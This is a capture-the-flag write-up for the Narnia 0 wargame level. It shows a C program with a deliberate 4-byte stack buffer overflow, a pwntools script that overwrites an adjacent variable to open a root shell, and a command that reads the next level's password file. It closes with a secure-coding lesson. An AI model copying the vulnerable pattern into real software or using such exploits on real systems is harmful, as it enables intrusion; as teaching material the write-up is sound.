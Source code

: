 # Narnia 0

## C File

```c
#include <stdio.h>
#include <stdlib.h>

int main(){
    long val=0x41414141;
    char buf[20];

    printf("Correct val's value from 0x41414141 -> 0xdeadbeef!\n");
    printf("Here is your chance: ");
    scanf("%24s",&buf);

    printf("buf: %s\n",buf);
    printf("val: 0x%08x\n",val);

    if(val==0xdeadbeef){
        setreuid(geteuid(),geteuid());
        system("/bin/sh");
    }
    else {
        printf("WAY OFF!!!!\n");
        exit(1);
    }

    return 0;
}
```

## Approach

Looks like the code initially sets `val` to `0x41414141` and then only gives us a shell if `val` magically turns into `0xdeadbeef`

However, since the `scanf` takes in 24 chars and the buffer is only 20 we can enter in some extra input that will overwrite val into `0xdeadbeef`

## Solution

Now we write a quick pwntools solution to get our shell

```python
from pwn import *
payload = b'A'*20
payload += p32(0xdeadbeef)

p = process("/narnia/narnia0")
p.sendline(payload)
p.interactive()
```

First we send 20 chars of random input to fill up `buf` then we add `0xdeadbeef` which will overflow into `val` letting us pass the check

Finally we send this to the process and enter interactive so we can grab the password to the next level using `cat /etc/narnia_pass/narnia1`

*I won't be showing the passwords in this write up since the game is always running*

## Conclusion

When writing c programs always make sure that the buffer is large enough to contain the users input including the null byte

Not doing this can risk a buffer overflow leading to vulnerabilies like this
